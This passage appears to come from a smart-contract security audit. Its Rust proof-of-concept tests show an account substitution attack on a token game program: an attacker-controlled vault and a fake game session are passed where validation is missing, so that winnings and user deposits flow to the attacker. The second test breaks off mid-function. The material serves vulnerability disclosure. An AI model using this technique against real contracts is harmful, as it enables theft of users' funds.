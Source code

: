 ## 🔬 Proof of Concept

### Account Substitution Attack
```rust
#[cfg(test)]
mod test_account_validation_bypass {
    use super::*;

    #[test]
    fn test_vault_substitution_attack() {
        let legitimate_session = create_test_game_session("real_game", 1000);
        let legitimate_vault = create_vault_for_session("real_game");

        // Attacker creates fake vault
        let attacker_vault = create_attacker_controlled_vault();

        // Distribute winnings call with substituted vault
        let fake_ctx = Context::new(
            &program_id,
            &mut DistributeWinnings {
                game_session: legitimate_session, // Real session
                game_server: fake_authority(),
                vault: attacker_vault, // ❌ Fake vault substituted!
                winner1: attacker_account(),
                winner2: attacker_account(),
                winner3: attacker_account(),
                winner4: attacker_account(),
                winner5: attacker_account(),
                token_program: token_program(),
            },
            &[]
        );

        // This should fail but doesn't due to missing validation
        let result = distribute_winnings_handler(fake_ctx, "real_game".to_string(), 0);

        // Attacker successfully steals all funds
        assert!(result.is_ok());
        assert_eq!(get_vault_balance(attacker_vault), 10000); // All funds stolen
    }

    #[test]
    fn test_session_substitution() {
        let real_session = create_test_game_session("target_game", 5000);
        let fake_session = create_attacker_session("target_game", 1); // Same ID, low bet

        // User tries to join "target_game"
        let join_ctx = Context::new(
            &program_id,
            &mut JoinUser {
                game_session: fake_session, // ❌ Fake session substituted
                user: legitimate_user(),
                user_token_account: user_account(),
                vault: attacker_vault(), // ❌ Attacker's vault
                token_program: token_program(),
                system_program: system_program(),
            },
            &[]
        );

        // User joins fake session unknowingly
        let result = join_user_handler(join_ctx, "target_game".to_string(), 0);
```